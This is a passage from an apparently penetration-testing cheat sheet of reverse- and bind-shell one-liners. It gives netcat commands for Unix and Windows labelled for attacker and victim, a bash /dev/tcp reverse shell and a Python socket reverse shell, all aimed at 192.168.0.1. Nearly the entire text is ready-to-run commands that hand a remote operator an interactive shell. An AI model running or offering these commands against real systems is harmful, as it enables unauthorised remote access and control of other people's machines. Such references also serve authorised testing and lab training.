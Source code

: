 *Attacker:*
```bash
rlwrap nc -nlvp 4444
```
#### Windows
```bash
nc 192.168.0.1 4444 -e cmd.exe
```

### Bind shell

#### Unix

*Victim:*
```bash
nc -nlvp 4444 -e /bin/bash
```
*Attacker:*
```bash
nc 192.168.0.1 4444
```

#### Windows

*Victim:*
```bash
nc -nlvp 4444 -e cmd.exe
```
*Attacker:*
```bash
nc 192.168.0.1 4444
```

***

## Bash

### Reverse Shell

```bash
/bin/bash -i >& /dev/tcp/192.168.0.1/4433 0>&1
```

***

## Python

### As Command (Reverse Shell)
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
